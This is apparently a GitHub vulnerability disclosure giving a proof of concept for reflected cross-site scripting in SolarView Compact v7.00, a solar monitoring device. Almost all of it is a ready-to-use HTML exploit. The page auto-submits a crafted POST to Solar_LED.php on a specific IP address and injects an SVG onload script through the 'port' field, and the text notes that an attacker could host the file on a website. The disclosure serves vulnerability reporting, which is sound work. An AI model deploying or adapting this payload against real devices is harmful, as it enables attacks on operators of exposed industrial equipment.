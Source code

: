 # Description:
Cross-site Scripting (XSS) - Reflected in SolarView Compact v7.00 Via crafted POST Request

## POC:

When someone opens this html file, or if attacker add it into his website, XSS will execute at the targeted vulnerable SolarView Compact host

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://124.85.103.237/Solar_LED.php" method="POST">
      <input type="hidden" name="led&#95;id&#91;&#93;" value="&#58;11" />
      <input type="hidden" name="led&#95;digits&#91;&#93;" value="1" />
      <input type="hidden" name="led&#95;id&#91;&#93;" value="&#58;11" />
      <input type="hidden" name="led&#95;digits&#91;&#93;" value="1" />
      <input type="hidden" name="led&#95;id&#91;&#93;" value="&#58;11" />
      <input type="hidden" name="led&#95;digits&#91;&#93;" value="1" />
      <input type="hidden" name="led&#95;id&#91;&#93;" value="&#58;11" />
      <input type="hidden" name="led&#95;digits&#91;&#93;" value="1" />
      <input type="hidden" name="port" value="batman&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;&apos;XSS_By_Strik3r&apos;&#41;&gt;" />
      <input type="hidden" name="btnSave" value="&#149;Û&#145;&#182;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

![image](https://user-images.githubusercontent.com/94288990/198833923-86f3cd74-e7f6-45b2-bb82-41ac4d476e09.png)
